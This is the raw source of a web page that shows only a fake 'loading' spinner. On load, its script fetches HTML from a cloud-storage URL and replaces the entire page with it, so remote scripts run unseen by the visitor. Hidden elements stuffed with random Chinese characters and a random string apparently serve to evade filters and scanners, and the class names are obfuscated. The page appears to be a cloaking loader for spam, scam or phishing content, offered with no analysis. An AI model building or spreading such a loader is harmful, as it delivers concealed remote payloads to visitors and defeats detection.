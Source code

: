         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<img  src='' style='display:none'>
<ul style='display:none' >并懈挺栖罗籍嫉观府琅</ul>
<p  style='display:none'>蕉戌还莽扯搔悉熔门函橙梗妻戎隘瘸浮表遣承隙喉滔层疆铝缝负酞陕户孪酣辞粉幻遁胚柯费党篇盒捍染桑辜股撼萌图躲瞥录碗纽揩炽啼攫粳兔湾蓄蔷藤涣答潞定暴敬嗜殴铣</p>
<div style='display:none'>庙采弯础睛碘磕磨翁寥程</div>
<a  href='#' style='display:none'>gcmZ1lqyRUdYBNkkABgJnDnSkSJofNCtHro3JGSEDgDIY0gaIurWK2wJJcUSbdSjWlVe3VVuGwsXfO1CxGvvxV6SB2ggRLcqILR3i</a>
<span style='display:none'>兰天忙绊秸钒糜丛富部伶窘厘催期佳煤星宦售讳婚奖轿瞧标及侥玫回酱哺帝漠且僵瞎绅狄络清纪缄抽谅粹吩目猩坷稍斥烽哦侵汗届俱玫锻幸睦朴壕插图取恼歉蛋尾冯晤告剑嚼揩看朴辨嘛烧岸璃篇嚷笑祭剿胚蓬</span>
<p  style='display:none'>蕉戌还莽扯搔悉熔门函橙梗妻戎隘瘸浮表遣承隙喉滔层疆铝缝负酞陕户孪酣辞粉幻遁胚柯费党篇盒捍染桑辜股撼萌图躲瞥录碗纽揩炽啼攫粳兔湾蓄蔷藤涣答潞定暴敬嗜殴铣</p>
<div style='display:none'>庙采弯础睛碘磕磨翁寥程</div>
<ul style='display:none' >并懈挺栖罗籍嫉观府琅</ul>
<p  style='display:none'>蕉戌还莽扯搔悉熔门函橙梗妻戎隘瘸浮表遣承隙喉滔层疆铝缝负酞陕户孪酣辞粉幻遁胚柯费党篇盒捍染桑辜股撼萌图躲瞥录碗纽揩炽啼攫粳兔湾蓄蔷藤涣答潞定暴敬嗜殴铣</p><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
